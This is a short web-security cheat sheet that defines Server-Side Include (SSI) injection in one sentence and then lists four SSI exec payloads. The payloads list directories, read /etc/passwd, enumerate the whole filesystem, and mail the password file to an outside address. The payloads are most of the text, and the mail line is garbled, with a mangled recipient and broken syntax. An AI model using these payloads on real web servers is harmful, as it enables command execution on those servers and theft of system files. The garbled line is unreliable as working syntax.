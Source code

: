 <h1>What is SSi Injection?</h1>
<P>SSI injection (Server-side Include) is a server-side exploit that lets an attacker send code into an application to be executed later, locally, by the web server.</p>

**Payloads :**
```
<!--#exec cmd="/bin/ls /" --><br/>
<!--#exec cmd="cat /etc/passwd" --><br/>
<!--#exec cmd="find / -name *.* -print" --><br/>
<!--#exec cmd="mail Florian Roth @4nc4p <mailto:Florian Roth @4nc4p> < cat /etc/passwd" --><br/>
```

